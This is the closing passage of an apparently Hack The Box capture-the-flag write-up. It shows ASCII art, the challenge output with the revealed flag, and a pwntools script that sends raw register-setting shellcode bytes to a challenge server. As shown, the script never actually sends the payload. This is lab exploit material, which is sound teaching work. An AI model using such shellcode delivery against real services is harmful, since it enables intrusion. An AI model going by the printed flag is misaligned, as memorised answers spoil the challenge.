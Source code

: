 ```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⠈⡇⣇⠀⠀⠀⠐⠀⠀⠀⠀⠀⠀⢸⠀⢼⣿⡟⢻⠋⠀⠀⡟⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⠀⣿⠘⢆⠀⠀⠀⠀⠤⠖⠁⠀⠀⢸⠀⣾⢹⠁⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⡄⢹⠀⡌⣷⣄⡀⠐⠀⠀⠀⢀⡴⢾⠀⢹⣏⡀⢰⠀⡇⠀⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢷⣸⠀⣧⡟⢹⡿⣦⣤⠶⠚⠁⠀⣿⢰⢸⡏⠱⣾⡀⡇⠀⣧⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⣀⡤⠴⠒⠚⣿⣿⠀⢹⢳⡾⠀⠀⠀⠀⠀⠀⠰⢿⣴⢸⠳⡾⢿⢇⢧⠀⢹⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⢀⡴⠊⠁⠀⠀⠀⠀⠈⡟⠀⣿⠘⡇⠀⠀⠀⠀⠀⠀⠀⢸⡏⢸⡖⠁⡈⡏⠻⣧⣸⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢀⡞⠂⠀⠀⠀⠀⠀⠀⣠⡇⠀⣧⠀⢾⣄⡰⠄⠀⠀⡜⠀⢸⣴⣸⠀⠠⠟⡇⠠⡈⠙⢷⠦⣀⠀⠀⠀⠀
⠀⠀⠀⠀⢸⠀⠀⠀⠀⠀⠀⢀⡎⠀⣟⣆⡿⠂⢸⣣⠄⠀⠀⠀⠈⠉⡹⡇⢸⡀⢄⣠⣿⠀⠈⠧⠀⠀⠀⠑⢆⠀⠀
⠀⠀⠀⠀⢹⠀⠀⠀⠀⡀⢀⡎⢀⠴⠿⢿⠃⠁⠀⡯⣆⠀⠀⠀⢀⠞⢹⢳⣸⣅⣀⣡⢹⡄⠀⠀⠀⠀⠀⠀⢘⡄⠀
⠀⠀⠀⠀⢸⡀⠀⠀⠀⣧⣼⡾⠁⠀⠀⠀⠙⣴⠶⢇⡘⣄⢠⡴⠁⠀⢸⠏⠁⠀⠀⠘⢦⡇⢰⠀⠀⡄⠀⠀⠈⡧⠀
⠀⠀⠀⠀⢸⣧⠀⠀⠀⣹⠟⡇⠀⠀⠀⠀⢀⡇⠘⠀⢹⣽⣏⣀⡀⣰⣯⠀⠀⠀⠀⠀⣸⢻⣶⡇⣰⠁⠀⠀⠀⡇⠀
⠀⠀⠀⠀⢸⣿⣄⡠⡾⠁⠀⢙⣤⣀⣀⡤⠾⣅⠀⣰⡟⠉⣀⣈⠙⣟⣾⣦⣀⠀⣀⡤⠏⠀⣿⣴⠃⠀⠀⠀⣸⠇⠀
⠀⠀⠀⠀⢈⡿⠖⢹⠁⠀⢀⠎⠁⢸⠋⠀⣠⠟⠛⢺⡀⠘⠿⠏⠀⢸⠷⠶⠏⢫⠉⠳⡀⠀⠘⢿⠀⠀⠀⢰⣿⠀⠀
⠀⠀⠀⠀⡼⠀⠀⡇⠀⠀⣼⠀⠀⣿⣠⠞⠁⠀⠀⠈⢳⡦⠀⠀⢀⡞⠀⠀⠀⠘⡆⠀⣱⡀⠀⠈⡧⡴⠖⣸⣻⠀⠀
⠀⠀⠀⢠⠃⠀⢠⡇⠀⠀⣿⢀⣿⣿⡁⠀⠀⠀⢀⠔⢫⣀⣤⣴⠏⠀⠀⠀⠀⠀⣷⠀⣿⣇⠀⠀⡇⠀⠀⡌⢹⠀⠀
⠀⠀⠀⡾⠀⠀⠸⡇⠀⠀⠁⢀⠎⠀⠀⠀⠀⡴⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠁⠀⠉⠀⠈⡇⠀⠀⡀⠸⡆⠀
⠀⠀⢰⠃⠀⡤⠀⣿⣀⠀⢀⠏⠀⠀⠀⢠⠎⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡔⠀⠀⠀⠀⣸⠇⠀⢠⠀⠠⡇⠀
⠀⠀⡏⢀⠎⠀⠀⢻⡟⣦⡜⠀⠀⠀⢀⠏⠀⢠⣐⠤⠒⠁⠀⠀⠀⠀⠀⢀⡴⠋⢀⡀⠀⠀⣠⢿⠀⢀⡞⠀⠀⣧⠀
⠀⢸⣷⠋⠀⢠⠃⠸⣿⣜⠃⠆⠀⠀⣎⡴⠖⠉⠀⠀⠀⠀⠀⠀⠀⢀⣴⣋⠴⠖⠉⢀⡀⣠⣫⠇⠀⠸⠃⠀⠀⣿⡄
⢠⡿⠁⠀⢠⠟⠀⢀⣿⣿⣸⡇⠀⣼⠉⠀⠀⠀⠀⠀⡀⠀⠀⠀⠴⠋⣉⡴⠄⢀⡴⠋⣰⣿⠟⠀⠀⠀⠀⠀⣸⣿⡇
⢸⠇⠀⡰⠃⠀⠀⣼⣿⣿⠋⠉⠓⠫⠿⢿⠒⠒⠚⠯⠥⠤⠦⠭⠵⠾⠯⢤⡺⠿⠗⠚⣿⣿⠀⠀⠀⠀⠀⢠⢿⢽⡗
⠀⠀⠀⠀⠀⠘⡿⣿⣿⡟⠙⠲⢤⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠁⠀⠀⠀⠀⢰⣿⣿⣄⣀⠀⠀⠀⣼⣿⡿⠃
⠀⠀⠀⠀⠀⠀⠀⠀⢈⠀⠀⠀⠀⠀⠒⠉⠙⠛⠭⣅⣉⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢘⡛⠛⠛⠀⠀⠀⠀⠁⠉⠀⠀

[*] Initializing components...

[-] Error: Misaligned components!

[*] If you intend to fix them, type "fix": fix

[!] Carefully place all the components:
HTB{r3c0n5truct_d3m_r3g5_304b5c3c6210fb9303a89d09855bc761}
```
<br>

**THE FLAG: HTB{r3c0n5truct_d3m_r3g5_304b5c3c6210fb9303a89d09855bc761}**

<br>
<br>

The final `payload.py`:

```python
from pwn import *

# Remote connection details
host = "94.237.50.250"
port = 54813

# Payload to send after 'ts: '
payload = b'\x49\xc7\xc0\xde\xc0\x37\x13\x49\xb9\xef\xbe\xad\xde\x00\x00\x00\x00\x49\xba\x37\x13\xad\xde\x00\x00\x00\x00\x49\xc7\xc4\xfe\xca\x37\x13\x49\xbd\xde\xc0\xef\xbe\x00\x00\x00\x00\x49\xc7\xc6\x37\x13\x37\x13\x49\xc7\xc7\xad\xde\x37\x13' + b'\xc3' * 25

# Connect to the remote host
conn = remote(host, port)

# Wait for 'x": ' and send "fix"
output = conn.recvuntil(b'x": ')
print(output.decode())
conn.sendline(b'fix')

# Wait for 'ts: ' and send the payload
output = conn.recvuntil(b'ts: ')
print(output.decode())
```